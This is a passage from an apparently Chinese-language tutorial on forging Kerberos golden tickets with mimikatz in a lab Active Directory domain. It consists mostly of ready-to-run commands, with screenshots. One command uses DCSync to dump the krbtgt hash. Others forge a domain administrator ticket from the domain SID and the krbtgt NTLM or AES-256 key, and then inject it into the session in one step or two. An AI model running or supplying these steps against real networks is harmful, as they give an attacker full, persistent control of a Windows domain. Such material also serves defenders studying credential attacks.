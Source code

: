 那么，我们如何知道 krbtgt 账号的 SID 值和哈希值呢？下面这个命令是在域控的服务器上运行

```
lsadump::dcsync /domain:xie.com /user:krbtgt
```

注意，这里我们要的是域的 SID 值，所以去掉最后的 502，如下 SID 为：S-1-5-21-2189311154-2766837956-1982445477

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFg35KSKGDrXiblpQMDicia2lx4jgpGvrYBwA1GuVQaxtXmwFRu8sJhGvaibMl2ZHfqQKfBmn4lbtxzNnA/640?wx_fmt=png)

以下环境是在域成员 A 的 administrator 用户下进行，因为 mimikatz 需要管理员权限！

生成票据并导入：

  

**方法一**：在 mimikatz 中生成黄金票据并导入 

```
privilege::debug  #提权
kerberos::golden /user:administrator /domain:xie.com /sid:S-1-5-21-2189311154-2766837956-1982445477 /krbtgt:7aad81625fab43e7fdb3cd9f399c060c /ptt  #生成票据并导入
# kerberos::golden /user:要伪造的域用户(我们这一般写域管理员) /domain:域名 /sid:域的sid值 /krbtgt:krbtgt的哈希 /ptt


或者也可以使用krbtgt的AES-256
privilege::debug  #提权
kerberos::golden /user:administrator /domain:xie.com /sid:S-1-5-21-2189311154-2766837956-1982445477 /aes256:93c335cce03858c917fa2ea98ca79f0b791c93c33ab17936784548114648cda7  /ptt
```

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFg35KSKGDrXiblpQMDicia2lx43ApQpKr2g3Dfj0DCsF02fMBN4iclHYqJo74fWibMVrSCrZfQHN7CGBaQ/640?wx_fmt=png)

**方法二**：在 mimikatz 中先生成票据，再导入

```
#以上的命令是直接一步将生成的票据导入，我们也可以分两步
privilege::debug       #提权
kerberos::golden /user:administrator /domain:xie.com /sid:S-1-5-21-2189311154-2766837956-1982445477 /krbtgt:7aad81625fab43e7fdb3cd9f399c060c     #默认生成ticket.kirbi票据
kerberos:ptt ticket.kirbi  #导入票据



#使用krbtgt用户的AES-256
privilege::debug       #提权
kerberos::golden /user:administrator /domain:xie.com /sid:S-1-5-21-2189311154-2766837956-1982445477 /aes256:93c335cce03858c917fa2ea98ca79f0b791c93c33ab17936784548114648cda7    #默认生成ticket.kirbi票据
kerberos:ptt ticket.kirbi  #导入票据
```

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFg35KSKGDrXiblpQMDicia2lx4oNvdQ9MzTC6X2ptw0sZLdZ01lMQthiajxhGnEYXSDFpGOF8aJaUSphA/640?wx_fmt=png)

**查看票据**

然后在我们域成员主机上的 CMD 窗口可以查看到该票据

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFg35KSKGDrXiblpQMDicia2lx45l8ica3Umgqh66gykGaeVAC1oIaHUvW7yIlic6v2fQ3KpjiblfB8iceyvg/640?wx_fmt=png)
